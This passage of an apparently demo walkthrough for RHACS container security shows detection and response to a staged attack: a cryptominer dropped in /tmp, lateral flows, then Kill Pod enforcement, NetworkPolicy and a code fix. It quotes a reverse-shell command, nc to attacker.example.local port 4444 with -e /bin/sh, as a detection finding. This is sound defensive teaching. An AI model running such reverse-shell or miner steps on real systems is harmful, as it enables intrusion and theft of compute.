

**TDR – Container drift: file dropped or made executable** — RHACS 5.0 **File Activity Monitoring**:
`/tmp/.cache/xmrig` **created** by a process in the container, then **permission changed**. The
blog never writes to `/tmp`, so any new file there is drift from the image.



**TDR – Reverse shell tool executed:** `nc` connecting to `attacker.example.local 4444` with `-e /bin/sh`.



**Network Graph.** The attacker appears **outside the cluster** as its own named entity,
**attacker.example.local**, next to generic *External Entities*:



Select **blog → Flows**: RHACS flags **4 anomalous flows** against the locked network baseline —
payments-api, the Kubernetes API and the attacker.



Select **attacker.example.local (1.2.3.4/32)**: three active flows from `blog`, each marked anomalous —
**4444/TCP** (reverse shell), **3333/TCP** (mining pool), **8080/TCP** (payload download).



> 💬 *"Every step was detected within seconds, each one mapped to MITRE ATT&CK. But seeing isn't
> stopping. The miner is still running and the shell is still open."*

---

## Act 5 — Respond

*"Stop the bleeding, then close the door."*

```bash
scripts/demo.sh act5
```

**Step 1 — kill: shrink the blast radius.** The TDR policies switch to **Kill Pod**. They are
`SecurityPolicy` custom resources — policy as code (*Origin: Externally managed* in the UI).



The attacker comes back and runs `id`… **RHACS kills the pod** within a second; Kubernetes replaces it
with a clean one from the original image — no miner, no `/tmp/.cache`, no shell. Every new attempt costs
the attacker the pod: the blast radius is one command, and we've bought time.

**Step 2 — network enforcement: close the door.** A NetworkPolicy lets the blog reach only DNS and the
internet on 80/443. Even the **app itself**, making an in-process HTTP call (no new process to kill), now
can't reach the attacker: `attacker.example.local:8080` times out.



On the attacker's laptop, the shell goes silent:



OpenShift records each kill as an event from StackRox:



**Violations → Enforced: N times** on *TDR – Unauthorized process* — one kill per attempt.



**Enforcement tab:** *"Enforcement 'Kill Pod' has been applied 4 times. StackRox killed pods in
deployment in response to this policy violation."*



> 💬 *"The kill stopped this attacker. The NetworkPolicy stops the next one before the first packet
> leaves."*

**What can trigger the kill?** Tested on RHACS 5.0: **process** events ✓ and **file activity** events ✓
kill the pod (measured: 0.69 s from `nc` to kill); **network-flow anomalies** only alert — Central accepts
Kill Pod on such a policy but no pod is killed. Network anomalies are answered with a NetworkPolicy:
step 2.

---

## Act 6 — Fix forward

*"Root cause: our code evaluated an untrusted 'rule' as Go — and gave it `exec.Command`."*

v2 removes the rule engine. It parses the URL, allows only http/https and uses Go's HTTP client — **no interpreter, no child process**:



```bash
scripts/demo.sh act6
```

v2 rolls out — **still 0 CVEs** — and the payload is now rejected: *not a valid http(s) URL*.



The feature still works, now with the native checker:




> 💬 *"Three layers. Shift-left kept the image clean — zero CVEs. Runtime detection caught the attack the
> scanner could never see. Enforcement and network policy stopped it. You need all three."*

---

## Reset for the next run

```bash
scripts/demo.sh reset     # enforcement off, NetworkPolicies removed, v1, fresh pods, violations resolved
```

`reset` also recreates payments-api so the lateral-movement flow is new again (RHACS raises a
baseline anomaly the first time a flow between two deployments appears).

## Regenerating these screenshots

The screenshots are produced by `docs/tools/shoot.sh` (Playwright in a container) from the shot lists in
`docs/shots/*.json`; terminal images are rendered from the captured output in `docs/raw/`.

```bash
FORCE_COLOR=1 NO_PAUSE=1 scripts/demo.sh act2 > docs/raw/act2.ansi
docs/tools/shoot.sh docs/shots/act23.json
```
